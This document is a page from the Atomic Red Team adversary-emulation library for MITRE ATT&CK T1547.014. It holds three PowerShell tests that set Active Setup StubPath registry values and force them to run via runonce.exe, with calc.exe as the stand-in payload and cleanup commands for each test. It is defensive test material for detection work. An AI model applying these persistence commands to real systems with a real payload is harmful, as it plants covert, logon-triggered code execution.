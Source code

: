 ```yaml
---
tags: [T1547_014, atomic_test]
filename: "[[T1547.014|T1547.014 - Active Setup]]"
---
```

# T1547.014 - Active Setup

## Atomic Test #1 - HKLM - Add atomic_test key to launch executable as part of user setup
This test will create an "atomic_test" key under 'HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components' to launch calc by configuring an active setup executable and 
forcing to run active setup using the "runonce.exe /AlternateShellStartup" command. 
Without the "runonce.exe /AlternateShellStartup" command it would run during the next logon for each user.

Note: If you logout before running the cleanup command, you will be required to go through the OOBE (out-of-box experience) setup sequence to log back in. 
The payload will only run once unless the cleanup command is run in between tests.

[Active Setup Explained](https://helgeklein.com/blog/active-setup-explained/)

**Supported Platforms:** Windows


**auto_generated_guid:** deff4586-0517-49c2-981d-bbea24d48d71





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| payload | Payload to run once during login | string | C:&#92;Windows&#92;System32&#92;calc.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-Item "HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components" -Name "atomic_test" -Force
Set-ItemProperty "HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components\atomic_test" "(Default)" "ART TEST" -Force
Set-ItemProperty "HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components\atomic_test" "StubPath" "#{payload}" -Force 
& $env:SYSTEMROOT\system32\runonce.exe /AlternateShellStartup
```

#### Cleanup Commands:
```powershell
Remove-Item "HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components\atomic_test" -Force -ErrorAction Ignore
Remove-Item "HKCU:\SOFTWARE\Microsoft\Active Setup\Installed Components\atomic_test" -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - HKLM - Add malicious StubPath value to existing Active Setup Entry
This test will add a StubPath entry to the Active Setup native registry key associated with 'Internet Explorer Core Fonts' (UUID {C9E9A340-D1F1-11D0-821E-444553540600}) 
Said key doesn't have a StubPath value by default, by adding one it will launch calc by forcing to run active setup using runonce.exe /AlternateShellStartup. 
Without the last command it will normally run on next user logon. Note: this test will only run once successfully if no cleanup command is run in between test.

**Supported Platforms:** Windows


**auto_generated_guid:** 39e417dd-4fed-4d9c-ae3a-ba433b4d0e9a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| payload | Payload to run once during login | string | C:&#92;Windows&#92;System32&#92;calc.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-ItemProperty "HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components\{C9E9A340-D1F1-11D0-821E-444553540600}" "StubPath" "#{payload}" -Force
& $env:SYSTEMROOT\system32\runonce.exe /AlternateShellStartup
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty "HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components\{C9E9A340-D1F1-11D0-821E-444553540600}" -Name "StubPath" -Force
Remove-ItemProperty "HKCU:\SOFTWARE\Microsoft\Active Setup\Installed Components\{C9E9A340-D1F1-11D0-821E-444553540600}" -Name "Version" -Force
```





<br/>
<br/>

## Atomic Test #3 - HKLM - re-execute 'Internet Explorer Core Fonts' StubPath payload by decreasing version number
This test will decrease the version number of the 'Internet Explorer Core Fonts' (UUID {C9E9A340-D1F1-11D0-821E-444553540600}) registry key for the current user, 
which will force the StubPath payload (if set) to execute.

**Supported Platforms:** Windows


**auto_generated_guid:** 04d55cef-f283-40ba-ae2a-316bc3b5e78c






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-ItemProperty -Path "HKCU:\SOFTWARE\Microsoft\Active Setup\Installed Components\{C9E9A340-D1F1-11D0-821E-444553540600}" -Name "Version" -Value "0,0,0,0"
& $env:SYSTEMROOT\system32\runonce.exe /AlternateShellStartup
```






<br/>
